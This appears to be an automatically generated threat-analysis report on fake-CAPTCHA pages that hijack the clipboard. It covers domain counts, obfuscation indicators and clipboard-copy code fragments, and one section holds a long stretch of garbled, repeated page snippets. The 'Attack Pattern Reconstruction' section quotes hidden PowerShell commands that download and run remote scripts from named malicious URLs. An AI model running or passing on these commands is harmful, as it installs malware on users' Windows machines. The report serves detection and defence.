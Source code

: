 # ClickGrab Threat Analysis Report - 2025-06-17

*Generated on 2025-06-17 08:38:51*

## Executive Summary

- **Total sites analyzed**: 36
- **Sites with malicious content**: 17
- **Unique domains encountered**: 18
- **Total URLs extracted**: 92
- **PowerShell download attempts**: 19
- **Clipboard manipulation instances**: 32

## Domain Analysis

### Most Frequently Encountered Domains

- **www.google.com**: 25 occurrences
- **use.fontawesome.com**: 16 occurrences
- **cdnjs.cloudflare.com**: 12 occurrences
- **www.webgo.de**: 10 occurrences
- **t.me**: 7 occurrences
- **browser.certif-update.website**: 4 occurrences
- **svetvip.ru**: 4 occurrences
- **api.whatsapp.com**: 3 occurrences
- **mc.yandex.ru**: 2 occurrences
- **aatox.com**: 1 occurrences
- **irp.cdn-website.com**: 1 occurrences
- **yogasitesdev.wpengine.com**: 1 occurrences
- **vk.com**: 1 occurrences
- **www.facebook.com**: 1 occurrences
- **ok.ru**: 1 occurrences

## URL Pattern Analysis

### reCAPTCHA imagery
*16 occurrences across 1 distinct URLs*

- `https://www.google.com/recaptcha/about/images/reCAPTCHA-logo@2x.png` (16 times)

### Font resources
*28 occurrences across 2 distinct URLs*

- `https://use.fontawesome.com/releases/v5.0.0/css/all.css` (16 times)
- `https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css` (12 times)

### CDN hosted scripts
*13 occurrences across 2 distinct URLs*

- `https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css` (12 times)
- `https://irp.cdn-website.com/45d8c6e0/files/uploaded/32.ps1` (1 times)

### Google resources
*25 occurrences across 4 distinct URLs*

- `https://www.google.com/recaptcha/about/images/reCAPTCHA-logo@2x.png` (16 times)
- `https://www.google.com/intl/en/policies/privacy/` (4 times)
- `https://www.google.com/intl/en/policies/terms/` (4 times)
- `https://www.google.com` (1 times)

## Suspicious Keyword Analysis

**Total Keywords Found**: 158 (18 unique)

### Keyword Categories

#### Social Engineering
*7 unique keywords*

- `I am not a robot`
- `To better prove you are not a robot`
- `reCAPTCHA Verification`
- `Verify You Are Human`
- `I'm not a robot`
- `Verification ID`
- `Verification Hash`

#### Obfuscation Indicators
*3 unique keywords*

- `atob(`
- `eval(`
- `document.write`

#### System Commands
*4 unique keywords*

- `Command`
- `<script src=`
- `<script>`
- `exec(`

#### Verification Text
*1 unique keywords*

- `✅`

#### Technical Terms
*3 unique keywords*

- `_0x`
- `display:none`
- `navigator.clipboard.writeText`

### Most Frequent Keywords

- **<script>**: 25 occurrences
- **I'm not a robot**: 17 occurrences
- **✅**: 16 occurrences
- **I am not a robot**: 16 occurrences
- **reCAPTCHA Verification**: 16 occurrences
- **To better prove you are not a robot**: 15 occurrences
- **Verification ID**: 14 occurrences
- **Verify You Are Human**: 12 occurrences
- **_0x**: 6 occurrences
- **atob(**: 6 occurrences
- **document.write**: 6 occurrences
- **Verification Hash**: 3 occurrences
- **navigator.clipboard.writeText**: 1 occurrences
- **<script src=**: 1 occurrences
- **Command**: 1 occurrences

### Similar Keyword Patterns

*Groups of keywords that appear to be variations of the same theme:*

**Group 1**: `<script>`, `<script src=`

**Group 2**: `Verification ID`, `Verification Hash`

**Group 3**: `I'm not a robot`, `I am not a robot`

## JavaScript Obfuscation Analysis

**Obfuscation Sophistication Score**: 4/7

### Detected Obfuscation Techniques

#### Hexadecimal Variables
*Variables using hexadecimal naming convention*

**Instances Found**: 96

**Examples:**
- `_0x1B70`
- `_0xA804`
- `_0x5910`
- `_0x1BA5`
- `_0x43F0`

#### Array Obfuscation
*Obfuscated arrays with hex variable names*

**Instances Found**: 6

**Examples:**
- `var _0x1BA5=["hMT2dERVdFQkR VVsSlNTa2"]`
- `var _0x1B70=["OeEt1QUFBQUFB R1TDY5Mjd"]`

#### Dynamic Property Access
*Dynamic property access to hide function names*

**Instances Found**: 6

**Examples:**
- `OeEt1QUFBQUFB R1TDY5Mjd`
- `hMT2dERVdFQkR VVsSlNTa2`

#### Document Write
*Dynamic code injection via document.write*

**Instances Found**: 6

**Examples:**
- `document.write(`

### Hexadecimal Variable Names

*These obfuscated variable names are commonly used to hide malicious functionality:*

- `_0x1B70`
- `_0xA804`
- `_0x5910`
- `_0x1BA5`
- `_0x43F0`
- `_0xC4EB`

## Clipboard Manipulation Analysis

Detected clipboard manipulation in **32** instances.

### Document.Execcommand Copy
Found in **32** snippets (100.0% of clipboard code)

**Examples:**

```javascript
document.execCommand("copy")
```

### Textarea Manipulation
Found in **32** snippets (100.0% of clipboard code)

## Clipboard Attack Flow Analysis

**Attack Sophistication**: 5/7 components detected
**Total Technique Instances**: 161

### Attack Flow Components

*The following components show how the clipboard attack is executed:*

#### Content Injection
*Injecting malicious content into elements*

**Instances**: 16
**Examples**: `.textContent =`

#### DOM Manipulation
*Adding elements to the DOM*

**Instances**: 16
**Examples**: `append(`

#### Selection Methods
*Selecting content for copying*

**Instances**: 48
**Examples**: `.select()`

#### Clipboard Operations
*Executing clipboard copy operations*

**Instances**: 49
**Examples**: `execCommand("copy"`, `navigator.clipboard`

#### Cleanup Operations
*Removing temporary elements*

**Instances**: 32
**Examples**: `removeChild`

### Malicious Payload Construction

*How the final clipboard payload is assembled:*

#### Hash Generation
**Instances**: 2
**Examples:**
- `verification-id`
- `Hash: <span id="verification-id">1110</span>" ="modal"> <div class="modal-content"> <p>Please } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che nt)) { document.getElementById("mobileWarningModal").style.display = "b et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi ber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum </div> <script> document.addEv }); </script> <script> let checkb ication Hash: <span id="verification-id">1110</span>" s="modal"> <div class="modal-content"> <p>Please } function hideCaptchaLoading() { chec } function hideCaptchaCheckbox() { chec ent)) { document.getElementById("mobileWarningModal").style.display = "b et checkboxWindow = document.getElementById("checkbox-window"); let check let checkboxBtn = document.getElementById("checkbox"); let check heckboxBtnSpinner = document.getElementById("spinner"); let verif let verifywindow = document.getElementById("verify-window"); function mber(); document.getElementById('verification-id').textContent = veri lect(); document.execCommand("copy"); docu tempTextArea.select(); docume </div> <script> document.addEve }); </script> <script> let checkbo ication Hash: <span id="verification-id">1110</span>" s="modal"> <div class="modal-content"> <p>Please } function hideCaptchaLoading() { chec } function hideCaptchaCheckbox() { chec ent)) { document.getElementById("mobileWarningModal").style.display = "b et checkboxWindow = document.getElementById("checkbox-window"); let check let checkboxBtn = document.getElementById("checkbox"); let check heckboxBtnSpinner = document.getElementById("spinner"); let verif let verifywindow = document.getElementById("verify-window"); function mber(); document.getElementById('verification-id').textContent = veri lect(); document.execCommand("copy"); docu tempTextArea.select(); docume </div> <script> document.addEve }); </script> <script> let checkbo ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb --) { my_div = document.getElementById('new_vote_'+r[1]+'_'+i); i while(my_div = document.getElementById('new_vote_'+r[1]+'_'+i)) { 02270945"></script> <script>new Image().src='htt umItems; i++) { eval('var timeOut'+popupI eval("timeIn"+uid+" = set 00);"); eval("clearTimeout(timeOu ; eval("clearTimeout(timeIn n"+uid+")"); eval("timeOut"+uid+" = se ection-list" style="display:none;"> <div clas ss="submenu" style="display:none;"> <li> <a > <ul style="display:none;"> <li> ification ID: <span id="verification-id">146820`

## Attack Pattern Reconstruction

### Malicious Command Analysis

Identified **4** malicious command preparations.

**Command 1:**
```powershell
powershell 
```

**Context:**
```javascript
WindowStyle Hidden -Command \"iex (irm 'https://aatox.com/verify/45.ps1')\""; const commandToRun = "powershell " + htaP...
```

**Command 2:**
```powershell
powershell 
```

**Context:**
```javascript
 = "-w hidden -c \"iwr 'https://yogasitesdev.wpengine.com/2/15.ps1' | iex\""; const commandToRun = "powershell " + htaPat...
```

**Command 3:**
```powershell
powershell 
```

**Context:**
```javascript
...idden -c \"iwr 'https://yogasitesdev.wpengine.com/2/15.ps1' | iex\""; const commandToRun = "powershell " + htaPat...
```

**Command 4:**
```powershell
powershell 
```

**Context:**
```javascript
 = "-w hidden -c \"iwr 'https://yogasitesdev.wpengine.com/2/15.ps1' | iex\""; const commandToRun = "powershell " +...
```

### Malicious Download Sources

- `https://aatox.com/verify/45.ps1`
- `https://irp.cdn-website.com/45d8c6e0/files/uploaded/32.ps1`
- `https://yogasitesdev.wpengine.com/2/15.ps1`

## Key Findings

1. **Prevalence**: 47.2% of analyzed sites contained malicious content
2. **Primary Attack Vector**: Fake CAPTCHA verification leading to clipboard hijacking
3. **Target Platform**: Windows systems via PowerShell execution
4. **Social Engineering**: Sophisticated UI mimicking legitimate Google reCAPTCHA

## Recommendations

1. **User Education**: Warn users about fake CAPTCHA verification schemes
2. **Clipboard Monitoring**: Implement clipboard monitoring for suspicious PowerShell commands
3. **URL Filtering**: Block known malicious domains identified in this analysis
4. **PowerShell Execution Policy**: Restrict PowerShell execution in corporate environments


